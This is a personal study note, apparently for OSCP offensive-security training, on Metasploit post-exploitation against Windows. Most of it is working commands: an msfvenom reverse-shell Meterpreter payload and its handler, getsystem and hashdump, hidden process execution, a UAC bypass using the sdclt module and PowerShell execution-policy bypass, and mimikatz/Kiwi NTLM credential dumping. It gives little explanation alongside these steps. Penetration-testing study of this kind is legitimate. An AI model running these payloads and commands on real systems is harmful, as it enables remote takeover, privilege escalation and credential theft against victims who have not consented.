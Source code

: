 ```yaml
---
aliases:
  - Metasploit Post Exploitation
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - metasploit
  - post_exploitation
  - meterpreter
author: Mehdi N Tehrani
creat_date: 2024-01-04
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```



# Process
1. Build payload
```sh
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=<lhost> LPORT=<lport> -f exe -o met.exe
```
2. Use multi/handler module in metasploit
```msfconsole
use multi/handler
set payload windows/x64/meterpreter_reverse_https
set lport <lport>
set lhost <lhost>
run
```

## meterpreter shell
#meterpreter 
```meterpreter
idletime     # how long user has been idle
getuid       # equiv to whoami
getsystem    # elevate to system account
ps
shell
getenv <env_name>
bg           # set session into background
hashdump
screenshare
```
### migrate meterpreter shell into an existing process
#migrate
We should note that we are only able to migrate into processes that execute at the same (or lower) [integrity and privilege level](https://docs.microsoft.com/en-us/windows/win32/secauthz/mandatory-integrity-control) than that of our current process.
```meterpreter
migrate <pid>   
```
### run new process
```meterpreter
execute -H -f <command_or_program_to_run>
         ^ hidden
```


# Bypass UAC
#uac #bypass_uac #bypass
[How UAC works](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works)
[Windows Object Manager](https://en.wikipedia.org/wiki/Object_Manager_(Windows))
[NtObjectManager Install](https://www.powershellgallery.com/packages/NtObjectManager/)
#nt_object_manager #ntobjectmanager #powershell_module #get_nttokenintegritylevel #nt_token #integrity_level
Find out the user's [integrity level](https://learn.microsoft.com/en-us/windows/win32/secauthz/mandatory-integrity-control): System, High, Medium, Low
```cmd
powershell -ep bypass
```
```powershell
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel

Medium
```

## Bypass UAC using metasploit
1. This requires a meterpreter session already established
```meterpreter
search UAC
use exploit/windows/local/bypassuac_sdclt
set session <session_id>
```

2. Check user integrity level again:
```powershell
Get-NtTokenIntegrityLevel

High
```

# Kiwi
#kiwi #mimikatz 
Kiwi is a Meterpreter extension providing the capabilities of *Mimikatz*.
```meterpreter
load kiwi
```
## creds_msv 
#creds_msv #ntlm #lm 
to retrieve LM and NTLM credentials.
```meterpreter
creds_msv
```
